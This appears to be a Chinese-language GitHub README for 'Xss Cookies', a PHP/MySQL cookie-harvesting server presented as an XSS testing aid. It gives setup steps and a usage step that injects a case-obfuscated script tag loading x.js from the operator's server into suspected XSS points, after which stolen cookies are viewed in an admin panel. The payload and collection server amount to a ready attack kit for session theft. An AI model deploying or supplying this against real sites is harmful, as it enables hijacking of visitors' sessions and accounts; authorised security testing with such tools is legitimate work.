 # 🍪 Xss Cookies
![Version](https://img.shields.io/badge/Version-1.0-orange)
![License](https://img.shields.io/badge/license-MIT-yellow)
![python](https://img.shields.io/badge/PHP->=5.0-blue)
![MySQL](https://img.shields.io/badge/MySQL->=5.2-brightgreen)

简介：一款XSS漏洞测试辅助工具，自动获取Cookies
![Xss Cookies](https://s3.jpg.cm/2021/09/09/ISpxlw.png)

---

## 一、安装
### 1. 修改配置文件 `config.php` 修改以下信息
 - MySQL 数据库信息
 - 管理员账号密码
 - 服务端地址

### 2. 当前目录所有文件部署到 php web server

### 3. 打开 `http://server_ip/install/` 进行安装

## 二、使用
### 1. 将如下代码植入怀疑出现 xss 的地方
```html
<sCRiPt sRC=http://server_ip/x.js></sCrIpT>
```

### 2. 打开 `http://server_ip/` 登录查看 cookies 信息

